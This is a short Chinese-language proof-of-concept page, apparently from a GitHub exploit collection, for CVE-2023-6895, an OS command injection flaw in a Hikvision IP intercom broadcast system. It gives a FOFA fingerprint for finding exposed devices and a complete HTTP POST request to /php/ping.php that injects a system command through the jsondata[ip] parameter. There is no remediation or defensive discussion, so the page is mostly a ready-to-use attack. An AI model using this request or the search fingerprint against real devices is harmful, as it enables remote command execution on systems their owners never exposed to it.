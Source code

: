 ## 海康威视CVE-2023-6895 IP网络对讲广播系统远程命令执行
海康威视对讲广播系统3.0.3_20201113_RELEASE(HIK)存在漏洞。它已被宣布为关键。该漏洞影响文件/php/ping.php 的未知代码。使用输入 netstat -ano 操作参数 jsondata[ip] 会导致 os 命令注入。

## fofa
```
icon_hash="-1830859634"
```

## poc
```
POST /php/ping.php HTTP/1.1
Host: xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 45
Origin: http://xxx.xxx.xxx
Connection: close
Referer: http://xxx.xxx.xxx/html/system.html
X-Forwarded-For: 127.0.0.1

jsondata[type]=3&jsondata[ip]=ipconfig
```
![0a7e02e1600a63bf856d6581f918b036](https://github.com/wy876/POC/assets/139549762/7f52597a-bcb4-402e-89fe-c0682cb61d40)
